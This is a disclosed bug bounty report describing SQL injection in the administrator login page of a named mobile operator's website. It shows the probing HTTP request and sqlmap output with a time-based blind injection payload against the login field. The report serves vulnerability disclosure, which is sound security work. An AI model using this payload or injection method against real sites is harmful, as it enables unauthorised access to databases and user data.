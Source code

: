 # SQL Injection on the administrator panel

## Report Details
- **Report ID**: 865436
- **URL**: https://hackerone.com/reports/865436
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-05-03T20:47:46.027Z
- **Disclosed**: 2021-07-29T03:50:17.043Z

## Reporter
- **Username**: z3lox
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
Hello team. The admin panel of the website is mtngbissau.com or is vulnerable to sql attack via https://mtngbissau.com/webadmin/index.php

## Request 

```
POST /webadmin/index.php HTTP/1.1
Host: mtngbissau.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://mtngbissau.com/webadmin/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Connection: close
Cookie: PHPSESSID=74db1535be320f591b6106253ad77191; SERVERID68971=262072|Xq8Kv|Xq8Ip
Upgrade-Insecure-Requests: 1

login=user'&pass=uesse
```
Confirmation of the vulnerability with sqlmap

```
[*] starting @ 21:06:44 /2020-05-03/

[18:05:44] [INFO] parsing HTTP request from 'post'
[18:06:10] [INFO] resuming back-end DBMS 'mysql' 
[18:06:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: login (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: login=admin' AND (SELECT 5206 FROM (SELECT(SLEEP(5)))THtF) AND 'MHhg'='MHhg&pass=admin
---
[18:06:45] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[18:06:45] [INFO] fetched data logged to text files under '/home/kira/.sqlmap/output/mtngbissau.com'


```

## Impact

Web application is vulnerable to SQL injection, allowing access to data

## Attachments
- SQLi.png
